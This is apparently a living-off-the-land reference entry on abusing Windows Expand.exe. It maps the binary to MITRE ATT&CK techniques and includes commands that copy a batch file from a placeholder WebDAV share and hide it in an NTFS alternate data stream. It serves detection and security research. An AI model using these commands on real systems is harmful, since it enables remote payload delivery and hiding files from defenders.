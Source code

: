 ## Expand.exe

* Functions: Download, Copy, Add ADS

```
expand \\webdav\folder\file.bat c:\ADS\file.bat    

expand c:\ADS\file1.bat c:\ADS\file2.bat    

expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat     
```

Acknowledgements:
* Rahmat Nurfauzi - @infosecn1nja
* Oddvar Moe - @oddvarmoe

Code sample:
*

Resources:
* https://twitter.com/infosecn1nja/status/986628482858807297
* https://twitter.com/Oddvarmoe/status/986709068759949319

Full path:
```
c:\windows\system32\Expand.exe
c:\windows\sysWOW64\Expand.exe
```

Notes:



 
MITRE ATT&CK:
* [NTFS File Attributes](https://attack.mitre.org/wiki/Technique/T1096)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)
